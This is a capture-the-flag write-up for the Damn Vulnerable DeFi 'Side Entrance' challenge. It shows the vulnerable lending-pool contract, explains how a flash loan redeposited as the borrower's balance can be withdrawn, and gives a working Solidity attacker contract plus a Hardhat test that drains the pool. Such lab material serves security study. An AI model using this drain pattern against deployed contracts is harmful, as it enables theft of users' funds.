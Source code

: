 # Damn Vulnerable Defi: 4. Side Entrance

> A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time. This very simple lending pool has 1000 ETH in balance already, and is
> offering free flash loans using the deposited ETH to promote their system. You must take all ETH from the lending pool.

**Objective of CTF:**

- Steal all ETH from the pool.

**Target contract:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";

interface IFlashLoanEtherReceiver {
  function execute() external payable;
}

/**
 * @title SideEntranceLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract SideEntranceLenderPool {
  using Address for address payable;

  mapping(address => uint256) private balances;

  function deposit() external payable {
    balances[msg.sender] += msg.value;
  }

  function withdraw() external {
    uint256 amountToWithdraw = balances[msg.sender];
    balances[msg.sender] = 0;
    payable(msg.sender).sendValue(amountToWithdraw);
  }

  function flashLoan(uint256 amount) external {
    uint256 balanceBefore = address(this).balance;
    require(balanceBefore >= amount, "Not enough ETH in balance");

    IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

    require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");
  }
}
```

## The Attack

Something looks familiar here: remember in a previous challenge there were two different sources of truth regarding the balance? Here, we have such a problem.

While the pool keeps track of balances of everyone via the `balances` mapping, it is not keeping track of it's own balance in that way! Instead, it is simply using `address(this).balance`. That balance would be the sum of all values under `balances` mapping.

This would be acceptable in the sense that the pool has to know how much total funds there is within, however using that logic within the pool comes with a problem.

See, if a borrowed flash loan is deposited immediately to the contract via `deposit` function, the contract balance would not drop but now all those funds will look as if they belong to the borrower!

## Proof of Concept

Our attacker contract is as follows:

```solidity
contract SideEntranceAttacker is IFlashLoanEtherReceiver {
  SideEntranceLenderPool immutable pool;

  constructor(address target) {
    pool = SideEntranceLenderPool(target);
  }

  function execute() external payable override {
    pool.deposit{value: msg.value}();
  }

  function pwn() external {
    // flash loan the entire pool
    pool.flashLoan(address(pool).balance);
    // this will execute the function above, depositing all that as if your own funds
    // then, withdraw them back
    pool.withdraw();
    // finally, transfer these back to yourself
    payable(msg.sender).transfer(address(this).balance);
  }

  // required to receive ether
  receive() external payable {}
}
```

The Hardhat test is as follows:

```ts
describe('Damn Vulnerable Defi 4: Side Entrance', () => {
  // accounts
  let owner: SignerWithAddress;
  let attacker: SignerWithAddress;

  // contracts
  let pool: SideEntranceLenderPool;

  // constants
  const ETHER_IN_POOL = ethers.utils.parseEther('1000');
  let attackerInitialBalance: BigNumber;

  before(async () => {
    [owner, attacker] = await ethers.getSigners();
    pool = await ethers.getContractFactory('SideEntranceLenderPool', owner).then(f => f.deploy());
    attackerInitialBalance = await ethers.provider.getBalance(attacker.address);

    // owner puts some ether in the pool
    await pool.deposit({value: ETHER_IN_POOL});

    expect(await ethers.provider.getBalance(pool.address)).to.equal(ETHER_IN_POOL);
  });

  it('should drain funds from the pool', async () => {
    const attackerContract = await ethers
      .getContractFactory('SideEntranceAttacker', owner)
      .then(f => f.deploy(pool.address));
    await attackerContract.connect(attacker).pwn();
  });

  after(async () => {
    expect(await ethers.provider.getBalance(pool.address)).to.be.equal('0');

    // we are'nt checking exactly how much is the final balance of the attacker,
    // because it'll depend on how much gas the attacker spends in the attack
    // If there were no gas costs, it would be balance before attack + ETHER_IN_POOL
    const attackerNewBalance = await ethers.provider.getBalance(attacker.address);
    expect(attackerNewBalance.gt(attackerInitialBalance)).to.be.true;
  });
});
```
